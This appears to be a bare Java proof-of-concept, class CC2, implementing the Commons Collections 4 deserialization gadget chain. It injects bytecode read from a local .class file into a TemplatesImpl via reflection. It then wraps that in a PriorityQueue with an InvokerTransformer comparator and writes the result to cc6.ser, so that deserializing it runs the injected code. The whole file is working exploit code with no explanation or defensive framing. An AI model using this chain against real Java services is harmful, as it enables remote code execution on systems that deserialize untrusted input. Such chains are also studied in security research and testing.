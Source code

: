 ```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry2.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
        TransformingComparator transformingComparator = new TransformingComparator<>(invokerTransformer,null);
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,new TransformingComparator<>(new ConstantTransformer<>(1)));
        priorityQueue.add(templatesClass);
        priorityQueue.add(templatesClass);
        Field compareField = PriorityQueue.class.getDeclaredField("comparator");
        compareField.setAccessible(true);
        compareField.set(priorityQueue,transformingComparator);
        serialize(priorityQueue);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```